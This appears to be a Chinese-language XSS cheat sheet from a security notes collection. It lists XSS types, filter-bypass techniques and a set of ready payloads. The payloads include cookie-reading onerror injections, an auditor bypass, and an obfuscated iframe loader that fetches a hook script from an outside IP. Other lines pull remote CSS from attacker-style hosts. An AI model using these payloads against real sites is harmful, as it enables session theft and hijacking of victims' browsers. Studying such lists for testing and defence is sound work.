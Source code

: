 XSS
================================

分类
--------------------------------
反射型xss
    一次浏览
    最常见，最广泛
    e.g http://www.baidu.com<script>alert("hack")</script>
储存型xss
    危害较大
    把相应脚本传到服务器上
DOMxss
    类似储存型


技巧
--------------------------------
1. 利用<>标记
2. 利用html属性
    - href
    - lowsrc
    - bgsound
    - background
    - value
    - action
    - dynsrc

3. 利用回车拆分关键字
4. 利用编码绕过
    - jsfuck
    - String.fromCharCode
    - HTML
    - URL

5. 大小写混淆
6. 对标签属性值转码
7. 产生事件
8. css跨站解析


CSP
--------------------------------
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。


payload
--------------------------------

常用
::

    <script>alert(/xss/)</script>

伪协议
::

    <table background="javascript:alert(/xss/)"></table>

Chrome XSS auditor bypass with HPP:
::

    ?param=https://&param=@z.exeye.io/import%20rel=import%3E

长度限制
::

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

jquery sourceMappingURL
::

    </textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>

图片名
::

    "><img src=x onerror=alert(document.cookie)>.gif

过期的payload
::
    
    src=javascript:alert 基本不可以用
    css expression特性只在旧版本ie可用

css
::

    <div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

iframe
::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

meta
::

    <META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
